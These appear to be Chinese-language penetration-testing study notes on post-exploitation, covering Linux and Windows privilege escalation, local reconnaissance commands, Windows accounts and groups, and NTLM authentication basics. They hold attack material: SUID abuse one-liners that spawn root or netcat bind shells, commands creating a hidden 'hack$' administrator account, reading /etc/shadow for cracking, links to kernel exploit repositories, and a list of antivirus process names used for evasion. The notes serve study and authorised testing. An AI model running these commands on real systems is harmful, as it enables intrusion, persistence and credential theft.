









# 后渗透—信息收集/提权/权限维持
> 当我们拿到一台主机的shell之后，我们想打内网或者想找到有用的信息，或者得到主机管理员权限。
>
> 信息收集包括内网信息收集，本机信息收集（windows，linux）
>
> 靶机：http://vulnstack.qiyuanxuetang.net/vuln/detail/2/

- 权限分类：
  1. 后台权限
  2. webshell权限
  3. 服务器权限（普通权限、管理员权限）
  4. 域控权限
- 通过前端渗透可获得1或2权限，后渗透可通过1或2权限进而获得3或4权限。

## 基础

当我们拿到shell，之后要干嘛。

- 判断当前服务器能否通内网，当前服务器对外网的连通性（也许只开了80端口可以访问）。

    - 通常来说，如果不做限制，主机可以通外网，任何协议的流量都可以出去。但是为了安全起见，主机管理员往往会限制主机访问外网。所以要综合判断各种协议(TCP、HTTP、DNS、ICMP)及端口通信的情况。常见的允许流量流出的端口有80、8080、443、53、110、123等。

        ```
        icmp协议：	直接 ping ip 或 域名。
        dns协议：	使用nslookup(Windows)命令 和 dig (Linux)命令
        HTTP协议：	linux下使用curl，wget ，
        TCP协议	使用nc反向连接或正向连接，但是nc软件要自己上传  ，telnet，nmap
        ```

    - 同理上诉，在我们进行内网横向移动的时候，拿到的内网主机也要测试网络连通性

- 收集一部分信息提权然后再收集信息。

不管是在外网中还是在内网中，信息收集都是重要的第一步。

**对于内网中的一台机器，其所处内网的结构是什么样的、其角色是什么、使用这台机器的人的角色是什么，以及这台机器上安装了什么杀毒软件、这台机器是通过什么方式上网的、这台机器是笔记本电脑还是台式机等问题，都需要通过信息收集来解答。**

## linux提权：

提取前提：

- 拿到了一个低权限的shell
- 能上传和下载文件
- 机器上有python、java、perl等环境（非必须项）

**寻找可利用bin： https://gtfobins.github.io/**

https://github.com/NullArray/RootHelper 要下很多脚本

### 内核提权：

- Linux内核版本有两种：**稳定版** 和 **开发版** ，Linux内核版本号由3组数字组成：第一个组数字.第二组数字.第三组数字

    - 第一个组数字：目前发布的内核主版本。
    - 第二个组数字：偶数表示稳定版本；奇数表示开发中版本。
    - 第三个组数字：错误修补的次数。

    - 如下，使用     `uname -r`     可以看到linux系统的发行版本号。3.10.0就是内核版本号。3就是内核主版本，10表示是稳定版，0表示错误修补次数是0。 而 123.el7.x86_64则是 redhat 的发行版本信息，123 代表编译123次，el7代表的是redhat7，x86_64则是64位系统。

- **说实话，内核漏洞提权很难成功，因为内核提权对内核的版本，还有目标机器的环境要求很高(需要安装有gcc等编译环境     )。所以使用内核提权成功率很低。并且内核提权需要查看exp的源代码，不然可能连编译都不会。**

- **脏牛漏洞本地提权（CVE-2016-5195）：**

    - Dirty COW，存在Linux内核中已经有长达9年的时间，在2007年发布的Linux内核版本中就已经存在此漏洞。Linux kernel团队在2016年10月18日已经对此进行了修复。

    - **漏洞范围**：

        - Linux内核 >=   2.6.22（2007年发行，到2016年10月18日才修复）

        - （如果你的内核版本低于以下版本，则还存在此漏洞）：

            ```bash
            Centos7/RHEL7     3.10.0-327.36.3.el7
            Cetnos6/RHEL6     2.6.32-642.6.2.el6
            Ubuntu 16.10      4.8.0-26.28
            Ubuntu 16.04      4.4.0-45.66
            Ubuntu 14.04      3.13.0-100.147
            Debian 8          3.16.36-1+deb8u2
            Debian 7          3.2.82-1
            ```

    - **简要分析**：该漏洞具体为，Linux内核的内存子系统在处理写入复制（copy-on-write,     COW）时产生了竞争条件（race     condition）。恶意用户可利用此漏洞，来获取高权限，对只读内存映射进行写访问。竞争条件，指的是任务执行顺序异常，可导致应用崩溃，或令攻击者有机可乘，进一步执行其他代码。利用这一漏洞，攻击者可在其目标系统提升权限，甚至可能获得root权限。

    - exp：https://github.com/gbonacini/CVE-2016-5195

    - 参考文章：[脏牛Linux本地提权漏洞复现(CVE-2016-5195)](https://www.jianshu.com/p/df72d1ee1e3e)

- **[Linux_Exploit_Suggester](https://github.com/InteliSecureLabs/Linux_Exploit_Suggester)** 

  - 通过扫描系统版本号，来查看可以使用哪些内核提权脚本，但是这个仓库有点老，最后一次提交2014年
  - ./Linux_Exploit_Suggester.pl   


### **SUID提权**

- **SUID可以让调用者以文件拥有者的身份运行该文件**，所以我们利用SUID提权的思路就是运行root用户所拥有的SUID的文件，那么我们运行该文件的时候就得获得root用户的身份了。

- 那么什么是suid提权呢？**我理解的就是有个文件，文件有s标志，并且他属于root用户，那么我们运行这个程序就可以有了root的权限，并且这个程序还得能执行命令**，不然没什么用处，那么我们就能从普通用户提升到了root权限了

- 以下命令可以发现系统上运行的所有SUID可执行文件。

    - ```bash
        find / -user root -perm -4000 -print 2>/dev/null
        find / -perm -u=s -type f 2>/dev/null
        find / -user root -perm -4000 -exec ls -ldb {} \;
        ```

- bash脚本文件的SUID标志位是无效的

-  `ls -lh /usr/bin/find` 查看find文件是否有s标志位

- 已知的可用来提权的linux可行性的文件列表如下：

    ```bash
    - Nmap：
    	- namp -i；!sh  直接获得rootshell
    	- exploit/unix/local/setuid_nmap  
    	- :shell
    - Vim：
    	- Vim的主要用途是用作文本编辑器。 但是，如果以SUID运行，它将继承root用户的权限，因此可以读取系统上的所有文件
    	- vim /etc/shadow
    	- # Press ESC key
    	- :set shell=/bin/sh
    - find：
    	- touch test；find test -exec whoami  \;   whoami就会以root身份运行
    	- 可以利用nc来反弹rootshell，find test -exec netcat -lvp 5555 -e /bin/sh \;
    - Bash：bash -p
    - more
    - Less：less file，!/bin/sh
    - nano
    - cp
    - pip
    ```

### **Sudo提权**

### **Linux配置错误提权**

### **定时任务提权**

### **找存储的明文用户名，密码**

### 其他

- **密码复用提权：**我们如果在主机上找到了其他应用或数据库的密码，那么很有可能root用户也用该密码。那么就可以尝试一下 su root 来提权了。

- **第三方服务提权**

- - 我们还可以查看主机上其他的第三方服务，利用第三方服务的漏洞可以拿到主机的      root      权限。比如如果主机的mysql或tomcat是用root权限启动的，而我们又通过漏洞拿到了mysql或tomcat的权限，就相当于获得了root的权限。

## windows提权：

meterpreter的模块和内核漏洞提权，看meterpre的笔记里面写的很详细

在Windows系统中，权限大概分为四中，分别是：

1. - User：普通用户权限
    - Administrator：管理员权限，可以利用Windows机制提升为System权限
    - System：系统权限
    - TrustedInstaller：Windows中最高权限。有些文件，连System权限也无法修改，只能TrustedInstaller权限修改。

 目标：拿到该主机的最高权限，一般system就行。

### **WebShell提权**

[Windows PR提权](https://blog.csdn.net/qq_36119192/article/details/84562454)**：**只有Windows Server      2003和windows xp系统能够使用 pr 提权。

### **数据库提权：**


### 内核溢出漏洞提权：

> [Windows内核溢出漏洞提权：](onenote:https://d.docs.live.net/ad8ceb1c3ec7c2dd/OneNote/工具/metasploit.one#meterpreter后渗透攻击&section-id={733527F8-846B-44ED-8D9C-078C2B969E5F}&page-id={B4B3892B-C777-4838-A419-90C9E38DAEA5}&end)

```url
1) https://github.com/Ascotbe/Kernelhub/blob/master/README.CN.md
2) https://github.com/SecWiki/windows-kernel-exploits
3) https://github.com/lyshark/Windows-exploits
4) https://github.com/klsfct/getshell
5) https://github.com/ianxtianxt/win-exp-、
```

### 令牌窃取提权：

>  [内网渗透之AccessToken窃取与利用](https://xie1997.blog.csdn.net/article/details/103965659)：

### 错误的系统配置提权：

> [Windows错误配置提权](https://blog.csdn.net/qq_36119192/article/details/104282669)：

### 组策略首选项提权：

> [Windows组策略首选项提权](https://blog.csdn.net/qq_36119192/article/details/104344105)，属于域环境

### 绕过UAC提权：

> [绕过UAC提权](https://blog.csdn.net/qq_36119192/article/details/104292591):要求用户本来就是管理员组成员，管理员组成员**需要uac点击**才能完成某些操作

## **windows信息收集：**

**自动化命令收集：**

- **cs插件集成了。可以自动化收集然后慢慢看**
- **利用PowerSploit进行所有操作**     [powershell](../编程语言/powershell.md)
- **使用wmic命令来查看**
- 自己写个bat脚本，命令都扔进去

本机信息包括操作系统、权限、内网P地址段、杀毒软件、端口、服务、补丁更新频率、网络连接、共享、会话等。如果是域内主机，操作系统、应用软件、补丁、服务、杀毒软件一般都是批量安装的。

1. 系统信息：`systeminfo`

2. 用户列表：

3. 进程：

    1. 常见杀软进程名

        ```cmd
        {"360tray.exe",    "360安全卫士"},
        {"360sd.exe",      "360杀毒"},
        {"a2guard.exe",    "a-squared杀毒"},
        {"ad-watch.exe",    "Lavasoft杀毒"},
        {"cleaner8.exe",    "The Cleaner杀毒"},
        {"vba32lder.exe",    "vb32杀毒"},
        {"MongoosaGUI.exe",    "Mongoosa杀毒"},
        {"CorantiControlCenter32.exe",    "Coranti2012杀毒"},
        {"F-PROT.EXE",    "F-PROT杀毒"},
        {"CMCTrayIcon.exe",    "CMC杀毒"},
        {"K7TSecurity.exe",    "K7杀毒"},
        {"UnThreat.exe",    "UnThreat杀毒"},
        {"CKSoftShiedAntivirus4.exe",    "Shield Antivirus杀毒"},
        {"AVWatchService.exe",    "VIRUSfighter杀毒"},
        {"ArcaTasksService.exe",    "ArcaVir杀毒"},
        {"iptray.exe",    "Immunet杀毒"},
        {"PSafeSysTray.exe",    "PSafe杀毒"},
        {"nspupsvc.exe",    "nProtect杀毒"},
        {"SpywareTerminatorShield.exe",    "SpywareTerminator杀毒"},
        {"BKavService.exe",    "Bkav杀毒"},
        {"MsMpEng.exe",    "Microsoft Security Essentials"},
        {"SBAMSvc.exe",    "VIPRE"},
        {"ccSvcHst.exe",    "Norton杀毒"},
        {"QQ.exe",    "QQ"},
        {"f-secure.exe",    "冰岛"},
        {"avp.exe",        "卡巴斯基"},
        {"KvMonXP.exe",    "江民杀毒"},
        {"RavMonD.exe",    "瑞星杀毒"},
        {"Mcshield.exe",   "麦咖啡"},
        {"egui.exe",       "NOD32"},
        {"kxetray.exe",    "金山毒霸"}, 
        {"knsdtray.exe",   "可牛杀毒"},
        {"avcenter.exe",   "Avira(小红伞)"},
        {"ashDisp.exe",    "Avast网络安全"}, 
        {"rtvscan.exe",    "诺顿杀毒"}, 
        {"ksafe.exe",      "金山卫士"}, 
        {"QQPCRTP.exe",    "QQ电脑管家"},
        {"Miner.exe",    "流量矿石"},
        {"AYAgent.aye",    "韩国胶囊"},
        {"patray.exe",    "安博士"},
        {"V3Svc.exe",    "安博士V3"},
        {"avgwdsvc.exe",    "AVG杀毒"},
        {"ccSetMgr.exe",    "赛门铁克"},
        {"QUHLPSVC.EXE",    "QUICK HEAL杀毒"},
        {"mssecess.exe",    "微软杀毒"},
        {"SavProgress.exe",    "Sophos杀毒"},
        {"fsavgui.exe",    "F-Secure杀毒"},
        {"vsserv.exe",    "比特梵德"},
        {"remupd.exe",    "熊猫卫士"},
        {"FortiTray.exe",    "飞塔"},
        {"safedog.exe",    "安全狗"},
        {"parmor.exe",    "木马克星"},
        {"beikesan.exe",    "贝壳云安全"},
        {"KSWebShield.exe",    "金山网盾"},
        {"TrojanHunter.exe",    "木马猎手"},
        {"GG.exe",    "巨盾网游安全盾"},
        {"adam.exe",    "绿鹰安全精灵"},
        {"AST.exe",    "超级巡警"},
        {"ananwidget.exe",    "墨者安全专家"},
        {"AVK.exe",    "GData"},
        {"ccapp.exe",    "Symantec Norton"},
        {"avg.exe",    "AVG Anti-Virus"},
        {"spidernt.exe",    "Dr.web"},
        {"Mcshield.exe",    "Mcafee"},
        {"avgaurd.exe",    "Avira Antivir"},
        {"F-PROT.exe",    "F-Prot AntiVirus"},
        {"vsmon.exe",    "ZoneAlarm"},
        {"avp.exee",    "Kaspersky"},
        {"cpf.exe",    "Comodo"},
        {"outpost.exe",    "Outpost Firewall"},
        {"rfwmain.exe",    "瑞星防火墙"},
        {"kpfwtray.exe",    "金山网镖"},
        {"FYFireWall.exe",    "风云防火墙"},
        {"MPMon.exe",    "微点主动防御"},
        {"pfw.exe",    "天网防火墙"},
        {"S.exe",    "在抓鸡"},
        {"1433.exe",    "在扫1433"},
        {"DUB.exe",    "在爆破"},
        {"ServUDaemon.exe",    "发现S-U"}, 
        {"BaiduSdSvc.exe",    "百度杀软"},
        ```

4. 服务列表

5. 网络：

6. 端口列表

7. 补丁列表

8. 启动程序

9. 计划任务

10. 主机开机时间：`net statistics workstation`

11. 本机共享

12. 防火墙相关配置 ：

13. 本用户习惯分析

14. rdp登陆凭证：获得远程登陆过的用户和密码，需要管理员权限

15. Windows账号密码：[利用meterpreter]

16. windows登录日志

17. 浏览器账号密码

18. 其他软件账号密码

19. WIFI账号密码

20. web服务配置路径

21. 其他信息收集

22. 

## **linux信息收集：**

内核，操作系统和设备信息

- ```
    uname -a    打印所有可用的系统信息
    uname -r    内核版本
    uname -n    系统主机名。
    查看操作系统位数：getconf LONG_BIT，知道系统是32位还是64位对后期生成msf木马有帮助。
    uname -m    查看系统内核架构（64位/32位）
    hostname    系统主机名
    cat /proc/version    内核信息
    cat /etc/*-release   分发信息
    cat /etc/issue       分发信息
    cat /proc/cpuinfo    CPU信息
    ```

用户和群组:

- 系统敏感信息，比如账号密码、日志、历史命令、ssh文件等。

- /etc/shadow （用户密码信息），{加密后的口令密码}的格式为 `$id$salt$encrypted`

    ```bash
    □ id为1时，采用md5算法加密
    □ id为5时，采用SHA256算法加密
    □ id为6时，采用SHA512算法加密
    □ salt为盐值,是对密码进行hash的一个干扰值
    □ encrypted为散列值 
    
    john filename 	破解用户密码，file里面保存了hash值
    ```

- /etc/passwd(保存用户） /var/log   history  .ssh

    - ```bash
        cat /etc/group      列出系统上的所有组
        grep -v -E "^#" /etc/passwd | awk -F: '$3 == 0 { print $1}'      列出所有的超级用户账户
        whoami              查看当前用户
        w                   谁目前已登录，他们正在做什么
        last                最后登录用户的列表
        lastlog             所有用户上次登录的信息
        lastlog –u %username%  有关指定用户上次登录的信息
        lastlog |grep -v "Never"  以前登录用户的完
        ```

用户和权限信息

```
whoami        当前用户名
id            当前用户信息
cat /etc/sudoers  谁被允许以root身份执行
sudo -l       当前用户可以以root身份执行操作 

```

环境信息

- ```bash
    env        显示环境变量
    set        现实环境变量
    echo %PATH 路径信息
    history    显示当前用户的历史命令记录
    pwd        输出工作目录
    cat /etc/profile   显示默认系统变量
    cat /etc/shells    显示可用的shell
    crontab -l  查看定时任务
    ```

# windows系统安全基础

## 1. 用户和组

### **用户账号**

用户帐户是对计算机用户身份的标识

**账号分为本地账号，工作组账号，域内账号**

本地用户账号：

- 只对本机有效，存储在本地安全账户数据库sam中，文件路径：`C:\Windows\System32\config\SAM` ，对应的进程：`lsass.exe` 
- 通过本地用户和组，可以为用户和组分配权利和权限，从而限制用户和组执行某些操作的能力。
    - 不同的用户身份拥有不同的权限。每个用户包含一个名称和一个密码。
    - **用户帐户拥有唯一的安全标识符(Security Identifier，SID)**。
    - 

- **查看用户的SID**：

    - **查看系统当前用户的SID：whoami /user** 

        - ```bash
            C:\Users\lambo>whoami /user
            
            用户信息
            ----------------
            
            用户名      SID
            =========== =============================================
            lambo\lambo S-1-5-21-218382517-3683856348-1198063792-1001
            ```

    - 查看所有用户的SID：`wmic useraccount get name,sid`

        ```bash
        C:\Users\lambo>wmic useraccount get name,sid
        Name                SID
        Administrator       S-1-5-21-218382517-3683856348-1198063792-500
        DefaultAccount      S-1-5-21-218382517-3683856348-1198063792-503
        Guest               S-1-5-21-218382517-3683856348-1198063792-501
        lambo               S-1-5-21-218382517-3683856348-1198063792-1001
        WDAGUtilityAccount  S-1-5-21-218382517-3683856348-1198063792-504
        ```


可以看到本地账号也有很多，有不同的类别

**Windows 默认账户：**

- 用于特殊用途，一般不需更修改其权限
- 与使用者关联的用户帐户 `Administrator（`管理员用户）
- 默认的管理员用户 Guest`（来宾用户） 默认是禁用的

**Windows 内置用户账户：**

- **权限：**System > Administrator > User > Guest

- 与windows组件关联的用户账户：
    - System (本地系统)：为windows的核心组件访问文件等资源提供权限

    - Local  Service (本地服务)：预设的拥有最小权限的本地账户
    - Network   Service (网络服务)：具有运行网络服务权限的计算机账户
    - 


### 和账号有关的命令

 ```bash
 net  user　　  	 							#查看本机全部账户
 net  user   xie      123   /add        		 #创建新用户xie，密码设置为 123
 net  user   hack$  123  /add       	 		 #创建隐藏用户hack，密码为123
 net  user  xie      	  					 #查看账户xie的属性
 net  user  xie  x456.    					 #将用户写的密码修改为x456.
 net  user  xie  /del  	  					 #删除用户xie
 net  localgroup   administrators  xie    /add      	#将普通用户xie提权到管理员
 net  localgroup   administrators  hack$  /add   	#将隐藏用户hack提权到管理员
 ```

### 组账号

- 组是一些用户的集合
- 组内的用户自动具备为组所设置的权限
- 

**windows内置组账户：**

- **需要人为添加成员的内置组**：

    - Administrators：
        - 具备系统管理员的权限，它们拥有对这台计算机最大的控制权限，可以执行整台计算机的管理任务。内置的系统管理员账号     Administrator 就是本地组的成员，而且无法将它从该组删除。
        - 如果这台计算机已加入域，则域的Domain  Admins 会自动地加入到该计算机的Administrators组内。
        - 也就是说，**域上的系统管理员在这台计算机上也具备着系统管理员的权限，但是反过来该机上的系统管理员不一定时域上的系统管理员**
    - Guests：
        - Guests 组是提供给没有用户帐户但是需要访问本地计算机内资源的用户使用，该组的成员无法永久地改变其桌面的工作环境。该组最常见的默认成员为用户帐号Guest。
    - Power Users：
        - Power Users 组内的用户具备比Users组更多的权利，但是比Administrators组拥有的权利更少一些，例如，可以：创建、删除、更改本地用户帐户；创建、删除、管理本地计算机内的共享文件夹与共享打印机；自定义系统设置，例如更改计算机时间、关闭计算机等。
    - Users（标准用户）：默认
        - Users 组内的成员只拥有一些基本的权利，例如运行应用程序，但是他们不能修改操作系统的设置、不能更改其它用户的数据、不能关闭服务器级的计算机。
        - 所有添加的本地用户帐户者自动属于Users组。如果这台计算机已经加入域，则域的Domain     Users会自动地被加入到该计算机的Users组中。
    - Remote Desktop Users：
        - Remote Desktop Users 组内的成员拥有远程桌面登录的权限。默认Administrators组内的成员都拥有远程桌面的权限。

- **动态包含成员的内置组**：

    - 其成员由Windows程序“自动添加”     ，Windows会根据用户的状态来决定用户所属的组 ，组内的成员也随之动态变化，无法修改

    - ```bash
        Interactive：     	#动态包含在本地登录的用户
        Authenticated Users  #任何一个利用有效的用户帐户连接的用户都属于这个组。建议在设置权限时，尽量针对Authenticated     					Users组进行设置，而不要针对Everone进行设置。
        Everyone 			#任何一个用户都属于这个组。注意，如果Guest帐号被启用时，则给Everone这个组指派权限时必须小心，因为当一个没有帐户的用户连接计算机时，他被允许自动利用Guest帐户连接，但是因为Guest也是属于Everone组，所以他将具备Everyone所拥有的权限。
        ```

### 和组有关的命令

```bash
net  localgroup                                 查看系统的组
net  localgroup   marketGroup   /add            新建一个marketGroup的组
net  localgroup   marketGroup   xie  /add       将用户xie加入marketGroup组中
net  localgroup   markGroup                     查看markGroup组内的成员
net  localgroup   marketGroup   xie  /del       将用户xi从marketGroup组中移除
net  localgroup   marketGroup   /del            删除marketGroup组
net  localgroup  "remote desktop users" hack /add       将用户hack加入远程桌面组
net  localgroup  "remote desktop users" hack /del       将用户hack从远程桌面组删除
```

## 2. 工作组和域

### **工作组**：

>  **我觉得工作组就相当于一种快捷访问局域网内其他用户共享的文件的一种方式，也只有这一种功能，没有什么资源管理，安全之类的。**

- **工作组**是局域网中的一个概念，它是最常见的资源管理模式，简单是因为默认情况下计算机都是采用工作组方式进行资源管理的。
- 默认情况下所有计算机都处在名为  **WORKGROUP** 的工作组中，工作组资源管理模式适合于网络中计算机不多，对管理要求不严格的情况。
- 大部分中小公司都采取工作组的方式对资源进行权限分配和目录共享。
- 相同组中的不同用户**通过对方主机的用户名和密码可以查看对方共享的文件夹，默认共享的是 Users 目录。**
- 不同组的不同用户通过对方主机的用户名和密码也可以查看对方共享的文件夹。
- **所以工作组并不存在真正的集中管理作用     ,  工作组里的所有计算机都是对等的 , 也就是没有服务器和客户机之分的。**

**工作组的加入和退出：**

- 右击桌面上的“计算机”，在弹出的菜单出选择“属性”，点击“更改设置”，“更改”，在“计算机名”一栏中键入你想好的名称，在“工作组”一栏中键入你想加入的工作组名称。**如果你输入的工作组名称网络中没有，那么相当于新建了一个工作组**，当然暂时只有你的电脑在组内。单击“确定”按钮后，Windows提示需要重新启动，重新启动之后，再进入“网络”就可以看到你所加入的工作组成员了。

- **工作组的退出：**
    - 只要将工作组名称改动即可。不过在网上别人照样可以访问你的共享资源。你也可以随便加入同一网络上的任何其它工作组。**“工作组”就像一个可以自由进入和退出的“社团”，方便同一组的计算机互相访问。**
- **工作组的优缺点：**
    - 优点：
        - 在一个网络内，可能有上百台电脑，如果这些电脑不进行分组，都列在“网上邻居”中，电脑无规则的排列为我们访问资源带来不方便。
        - 了解决这一问题，Windows98操作系统之后就引用了“工作组”这个概念，将不同的电脑按功能分别列入不同的组中，如软件部的电脑都列入“软件部”工作组中，网络部的电脑都列入“网络部”工作组中。
        - 计算机通过工作组进行分类，使得我们访问资源更加具有层次化。工作组情况下资源可以相当随机和灵活的分布，更方便资源共享，管理员只需要实施相当低级的维护。
    - 缺点：
        - 缺乏集中管理与控制的机制，没有集中的统一帐户管理，没有对资源实施更加高效率的集中管理，没有实施工作站的有效配置和安全性严密控制。只适合小规模用户的使用。
    - 基于以上缺点，**当计算机数量比较多，大型企业中网络规模大，需要统一的管理和集中的身份验证，并且能够给用户提供方便的搜索和使用网络资源的方式，工作组的组织形式就不合适了，于是域就出现了**

### **域留到域渗透再讲**

## 3. 本地认证和NTLM认证

- **SSPI** (Security Service Provider Interface 或 Security Support Provider Interface) **安全服务提供接口**，这是 Windows 定义的一套**接口**，该接口定义了与安全有关的功能函数，包含但不限于：
    - 身份验证机制
    - 为其他协议提供的 Session Security 机制。Session Security 指的是会话安全，即为通讯提供数据完整性校验以及数据的加、解密功能
- **SSP** (Security Service Provider) **安全服务提供**，SSPI 的**实现**者，微软自己实现了如下的 SSP，用于提供安全功能，包含但不限于：
    - **NTLM SSP**
    - **Kerberos**（域的）
    - Digest  SSP
- 因为 SSPI 中定义了与  Session Security 有关的 API。所以，基本上层应用利用任何 SSP 与远程的服务进行了身份验证后，此 SSP     都会为本次连接生成一个随机 key。这个 key 往往被称为 Session Key。上**层应用在经过身份验证后，可以选择性地使用这个     Key 对之后发往服务端或接收自服务端的数据进行签名或加密。**
- 不同的 `SSP`，实现的身份验证机制是不一样的。**比如 NTLM SSP 实现的就是一种 Challenge based 身份验证机制。而 Kerberos     实现的就是基于 Ticket 的身份验证机制。**我们可以编写自己的 SSP，然后注册到操作系统中，让操作系统支持更多的自定义的身份验证方法。

**Windows认证方式**

- **什么是认证？**
    - 认证就是证明你的身份。 比如你要通过网络访问一个受保护的资源，服务器需要认证你的身份。 你可以声称你是系统管理员， 但是你怎么证明你就是系统管理员呢？方法很多，最简单直接的方法就是证明你知道系统管理员的密码。   
    - 一个简单暴力的证明方法是，**让你直接提供所称用户的密码给服务器**，然后服务器去数据库里面对比，看你提供的密码对不对。如果对，认证通过，否则失败。 **常见的所谓 Windows Forms 认证，或者叫做 Windows basic 认证就是这种方式**， 简单直接。 但是**密码需要在网络上传输，安全问题就不说了**，你懂的。
    - 怎样在不直接提供密码的情况下，间接证明你知道密码呢？
        - 加密密码就行了啊，这样在网络发送的就是加密了的密码了。比如接下来的NTLM加密。
        - 但是同样有个问题，我们抓取到了NTLM加密后的密码，同样可以登陆服务器了。
- Windows系统有几种认证体系：**NTLM** 和 **Kerberos**。

### **NTLM(New Technology LAN Manager)**哈希算法:

- **在Windows2000以后，Windows机器都用NTLM算法在本地保存用户的密码**，密码的NTLM哈希保存在`c:\windows\System32\config\SAM` 文件中。
- **在渗透测试中，通常可从 Windows系统中的SAM文件 和 域控的 NTDS.dit 文件中获得所有用户的Hash，也可以通过 Mimikatz 读取 lsass.exe 进程获得已登录用户的NTLM hash和明文值 。**
- NTLM认证则是利用NTLM哈希进行的认证，主要有 **本地认证** 和 **网络认证** 两种方式。NTLM认证是Windows早期的认证方式，因向后兼容性而保留了下来。NTLM适用范围非常广，既可用于域内的认证服务，也可用于没有域的工作组环境。
- NTLM 有 **NTLMv1** 、**NTLMv2** 、**NTLMsession v2** 三个版本，目前使用最多的是NTLMv2版本。
- NTLM加密算法：比如当用户输入密码123456后，那么操作系统会将123456转换为十六进制，经过Unicode转换后，再调用MD4加密算法加密，这个加密结果的十六进制就是NTLM Hash

**NTLM认证方式(工作组环境中，Net-NTLMHash)：**

- 

- 客户端需要访问服务器的某个服务(前提是他得知道服务器的用户名和密码)，所以得进行身份认证。于是，客户端输入服务器的用户名和密码进行验证，客户端会缓存服务器密码的NTLM-Hash值。客户端发送**TYPE 1** Negotiate     协商消息去协商需要认证的主体，用户(服务器端的用户名)，机器以及需要使用的安全服务等等信息。发了一个请求，未发送密码。

